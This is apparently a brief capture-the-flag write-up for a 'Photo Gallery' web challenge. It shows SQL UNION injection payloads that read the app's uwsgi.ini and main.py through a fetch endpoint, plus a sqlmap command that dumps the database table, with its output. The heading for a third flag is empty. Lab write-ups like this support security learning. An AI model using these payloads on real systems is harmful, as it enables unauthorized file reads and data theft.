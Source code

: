 # Photo Gallery
## Flag 1
* http://35.227.24.107/a46a28d046/fetch?id=1 when selected image
* based on the Hint "Take a few minutes to consider the state of the union"
* A union select could be used however the location was understood after the nxext hint
* "This application runs on the uwsgi-nginx-flask-docker image" from a quick search the file loacation was dtermined.
* uwsgi.ini is the config and main.py is the main file
* Hence id=1.1 UNION SELECT 'uwsgi.ini' -- and id=1.1 UNION SELECT 'main,py' -- was tried 
* main.py had the flag.

## Flag 2
* http://35.227.24.107/a46a28d046/fetch?id=1 used with sqlmap
* sqlmap -u 35.227.24.107/a46a28d046/fetch?id=1 --dump --threads 10
+----+------------------+--------+------------------------------------------------------------------+
| id | title            | parent | filename                                                         |
+----+------------------+--------+------------------------------------------------------------------+
| 1  | Utterly adorable | 1      | files/adorable.jpg                                               |
| 2  | Purrfect         | 1      | files/purrfect.jpg                                               |
| 3  | Invisible        | 1      | Flag                                                             |
+----+------------------+--------+------------------------------------------------------------------+


## Flag 3
* 
